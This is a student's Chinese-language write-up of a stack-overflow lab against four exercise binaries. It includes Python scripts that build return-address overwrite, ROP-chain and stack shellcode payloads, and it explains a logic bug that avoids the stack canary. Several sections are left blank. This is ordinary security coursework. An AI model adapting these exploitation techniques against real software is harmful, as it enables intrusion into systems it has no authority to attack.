



# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：通过 objdump 分析 func 函数，发现存在 strcpy 调用，且没有对源字符串长度进行检查。
    * 布局分析：目标缓冲区位于 rbp - 0x8 处。

    * 溢出利用：我们需要填充 8 字节填满缓冲区，再填充 8 字节覆盖 Saved RBP，接下来的 8 字节将覆盖函数的返回地址

    * 攻击目标：将返回地址覆盖为 func1 函数的地址 (0x401216)，该函数会输出成功字符串。
- **解决方案**：
```python
import struct
padding = b'A' * 16
target_address = struct.pack('<Q', 0x401216)
payload = padding + target_address
with open("ans1.txt", "wb") as f:
    f.write(payload)
print(f"Payload created! Size: {len(payload)} bytes.")
print("Run: ./problem1 ans1.txt")
```
- **结果**：


### Problem 2:
- **分析**：程序开启了 NX 保护，无法在栈上直接执行代码。我们需要利用 ROP 技术。

    * 目标：调用 func2 函数，但该函数要求第一个参数（寄存器 %rdi）必须等于 0x3f8。

    * Gadget 寻找：在反汇编中找到了 pop_rdi 函数片段 (0x4012c7)，其指令为 pop %rdi; ret。

    * 攻击链构建：填充 16 字节 -> 覆盖返回地址为 pop %rdi 地址 -> 栈上放置参数 0x3f8 -> 放置 func2 地址。
- **解决方案**：
```python
import struct
padding = b'A' * 16
pop_rdi_addr = struct.pack('<Q', 0x4012c7)
arg1 = struct.pack('<Q', 0x3f8)
func2_addr = struct.pack('<Q', 0x401216)
payload = padding + pop_rdi_addr + arg1 + func2_addr
with open("ans2.txt", "wb") as f:
    f.write(payload)

print(f"Payload for Problem 2 created! Size: {len(payload)} bytes.")
print("Run: ./problem2 ans2.txt")
```
- **结果**：


### Problem 3: 
- **分析**：分析： 本题没有 NX 保护，可以使用 Shellcode，但需要确定 Shellcode 在栈上的地址。

    * 栈地址泄露：func 函数将当前的 %rsp 保存到了全局变量 0x403510 中。

    * 缓冲区位置：通过汇编分析，缓冲区位于 saved_rsp + 0x10 的位置。

    * Trampoline（跳板）：函数 jmp_xs (0x401334) 会读取该全局变量，给地址加 0x10，然后跳转过去。

    * 攻击策略：将返回地址覆盖为 jmp_xs 的地址。jmp_xs 会自动计算出 Buffer 的地址并跳回来执行我们放在 Buffer 开头的 Shellcode。
- **解决方案**：
```python
import struct

shellcode = b'\xbf\x72\x00\x00\x00' + \
            b'\xb8\x16\x12\x40\x00' + \
            b'\xff\xd0'
padding = b'A' * 28
jmp_xs_addr = struct.pack('<Q', 0x401334)
payload = shellcode + padding + jmp_xs_addr

with open("ans3.txt", "wb") as f:
    f.write(payload)

print(f"Payload for Problem 3 created! Size: {len(payload)} bytes.")
print("Run: ./problem3 ans3.txt")
```
- **结果**：

### Problem 4: 
- **分析**：通过反汇编可以看到，函数开头使用 mov %fs:0x28, %rax 从 TLS (Thread Local Storage) 读取一个随机值放到栈底 (rbp-0x8)。函数返回前，再次读取该位置并与 %fs:0x28 比较 (xor/sub)，如果不相等则调用 __stack_chk_fail 终止程序。这使得传统的缓冲区溢出变得困难。

* 逻辑漏洞：程序存在一个逻辑分支。如果输入为 -1 (0xffffffff)，程序会进入一个巨大的循环，将输入值减去 0xfffffffe。计算结果 `0xffffffff - 0xfffffffe = 1`。

* 绕过方式：当循环结束且结果为 1 时，程序会调用 func1 输出 Flag，随后直接调用 exit 函数退出。由于直接 exit 了，程序并没有执行到 ret 指令前的 Canary 检查代码，从而绕过了保护。
- **解决方案**：无需，只需输入-1
- **结果**：

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
